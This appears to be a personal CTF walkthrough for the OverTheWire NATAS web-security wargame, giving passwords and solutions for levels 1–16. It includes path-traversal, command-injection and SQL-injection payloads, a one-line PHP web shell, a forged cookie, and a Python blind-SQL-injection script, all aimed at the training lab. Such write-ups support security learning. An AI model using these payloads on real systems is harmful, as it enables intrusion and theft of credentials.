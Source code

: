 NATAS-Over The Wire
===================

level-1:
-------
password: gtVrDuiDfck831PqWsLEZy5gyDz1clto 

solution: look the page source

level-2:
--------
password: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

solution: looking athe pagesource,right-clicking is blocked so we have to use ctrl+u key combination to view page-source 

level-3:
--------
password: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14


solution: looking trough the page source we find a image link ``files/pixel.png`` ,when we look at the ``/files`` dir-listing is enabled 	there is user.txt and you can find the password inside that file 


level-4:
--------
password: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

solution: look at the robots.txt you can find ``/s3cr3t/`` when we go to that we can see a user.txt and we can see the password inside that file

	
level-5:
-------
password: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq 

solution: we have to change the Referer header to ``http://natas5.natas.labs.overthewire.org/``

level-6:
--------
password: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

solution: we want to change the cookiee "loggedin" from 0 to 1.


level-7:
--------

password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9 
solution: here we want to pass the correct secret,by looing into the "view sourcecode" we can see the php source-code and in that it is including ``includes/secret.inc`` to the page so i browsed to that page and in the source of the page we can find the secret
	
level-8:
-------

password: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe 

solution: LFI,pyaload to the page parameter ``/../../../etc/natas_webpass/natas8``

level-9:
-------

password: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl 

solution: looking through the source of the page our input is passed to a ``encodeSecret`` function and it compares to a string in the code so we just have to reverse the function , take that string and then do hex2bin() and then strrrev() and then base64_decode(), and we will get the serect
	
level-10:
-------

password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

solution: by looking through the php sourcecode we can see that our input is passed into passthru() finction which will exicute the grep command ,so we can have os command injection vulnerablity here and just by putting ``;`` after that what commant we give will be exicuted on the server 
payload: ; cat /../../../etc/natas_webpass/natas10
	
level-11:
-------

password:  U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

solution: here there are some fileter so we cannot directly inject commands,so we can use the grep command to show all the text in ``/../../../etc/natas_webpass/natas10`` file
payload: .* ../../../../etc/natas_webpass/natas11

level-12:
-------

password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

solution: when we view the php  source code of the page ,it xor encrypting the jason encoded "showpassword"=>"no", "bgcolor"=>"#ffffff" and then base64 endcoded and store it as cookie ,it is checking that "showpassword" value is "yes" only then we can see the password,so we can decode the cookie using the same function to get the xor key and change the ``"showpassword"=>"yes"`` in that arry,then xor encrypt and base64 encode and put it as the cookie data value

final payload: ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK(set this as the data cookie value)

level-13:
-------

password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 

solution: in the website there is an upload function and we can upload a php file ,but the filename and extension is generated by the webapp ,we can change the extention using burp suite

final php code:
```php
<?php system("cat /../../../../etc/natas_webpass/natas13"); ?>
```


level-14:
-------

password:  Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1

solution:  here it cheks for an image type so we can add some magic bytes of the jpeg files to pass that check 
	
level-15:
-------

password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

solution: sql injection

payload :   ``" or 1=1 --+``(put it in the input feild)
	
level-16:
-------
password: WaIHEacj63wnNIBROHeqi3p9t0m5nhmh

solution: here blind sql injection is possible , it check for the username exists ,we can see that nata16 exists so we want to find the password of natas16
	
python exploit:
```python
#!/usr/bin/python3

import requests
import string


req=requests.Session()
url='http://natas15.natas.labs.overthewire.org/index.php'
auth={'Authorization': 'Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=='}
req.headers.update(auth)
r=req.post(url,headers=auth)
p="natas16 \" and ord(substr(password,{},1))={}#"
chrs=string.ascii_letters+string.digits
password=''
for j in range(1,33):
	for i in chrs:
		i=ord(i)
		payload=p.format(j,i)
		data={"username":payload}
		r1=req.post(url,data=data)
		if "This user exists." in r1.text:
			  password+=chr(i)
			  break
			
print(password)

```

level-17:
-------

password:

solution:

level-18:
-------

password:  

solution:  	
	
	
	
	
	
	

